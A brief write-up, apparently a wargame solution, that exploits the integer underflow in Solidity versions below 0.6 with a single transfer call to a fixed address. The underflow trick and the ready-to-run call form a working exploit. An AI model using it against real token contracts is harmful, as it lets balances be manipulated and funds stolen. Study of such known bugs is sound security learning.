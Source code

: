 We make use of the underflow and overflow vulnaribility existed in solidity versions below 0.6.
Just send this transaction and you will be fine - await contract.transfer('0x63bE8347A617476CA461649897238A31835a32CE', 21);
 